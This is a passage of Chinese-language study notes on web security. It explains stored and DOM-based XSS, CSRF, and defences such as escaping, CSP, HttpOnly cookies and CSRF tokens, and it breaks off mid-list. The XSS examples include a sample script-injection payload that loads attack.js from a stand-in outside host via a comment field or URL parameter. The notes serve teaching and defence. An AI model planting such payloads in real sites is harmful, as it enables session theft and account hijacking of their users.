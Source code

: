 ##### 存储型
    - 原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。
    - 会存储到数据库：主要是表单中携带攻击代码，例如留言
    - eg:
    ```md
    1. 攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。
    2. 目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。
    3. 其他用户在访问该留言板时，会自动执行攻击者注入脚本。
    ```

##### DOM-Based型
    - 原理：攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。
    - 用户输入未过滤
      - 主要是客户端代码写得不够安全,服务端不参与
    - eg:
    ```md
    1. 攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。
    2. 被攻击网站<前端>取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。
    3. 被害者在不知情的情况下，执行了攻击者注入的脚本。
    ```

- 产生原因：在用户产生输入的地方（url 表单等），没有充分的过滤 + 编码
  - 黑客会对内容做各种编码绕过过滤

- 防御：客户端防御
  1. 输入过滤：- 对于外部传入的内容进行充分转义
    -  黑名单过滤：例如拦截< >
    - 白名单过滤: 例如
  1. 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
    - [CSP](https://www.ruanyifeng.com/blog/2016/09/csp.html)
      - 开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置
        - 一种是通过 HTTP 头信息的Content-Security-Policy的字段。
        - 另一种是通过网页的<meta>标签
  3. 输出过滤:表单提交时等需要对内容进行转义和过滤
  4. 设置cookie: http-only, 禁止 JavaScript 读取 Cookie 防止被窃取。
  ```js
  // Server
  response.setHeader('set-coockie', 'xxx;HTTPOnly');
  ```

### CSRF
- https://tech.meituan.com/2018/10/11/fe-security-csrf.html
- cross site request forgery ： 跨站请求伪造
- 原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。
  - 本质上只由于cookie机制引起的(浏览器向域名a的server请求时，会携带上a的cookie)
- eg：
  ```md
  1. 受害者登录a.com，并保留了登录凭证（Cookie）。
  2. 攻击者引诱受害者访问了b.com。
  3. b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带a.com的Cookie。(并不是b.com获取到了cookie，而是浏览器会携带cookie，b.com肯定是要符合cookie的domain要求的)
    - 如果设置 Domain=mozilla.org，则 Cookie 也包含在子域名中（如developer.mozilla.org）
  4. a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
  5. a.com以受害者的名义执行了act=xx。
  6. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执行了自己定义的操作。
  ```
- 类型：
  - get型
    - 在<img>中写一个get请求，打开页面自动发送
  - post型
    - 在iframe中写一个隐藏的表单，打开页面自定执行表单的提交，实现成本稍高
- 防御：
  - 服务端:
    1. 放弃cookie,使用 CSRF Token 验证用户身份 （可以理解为就是token）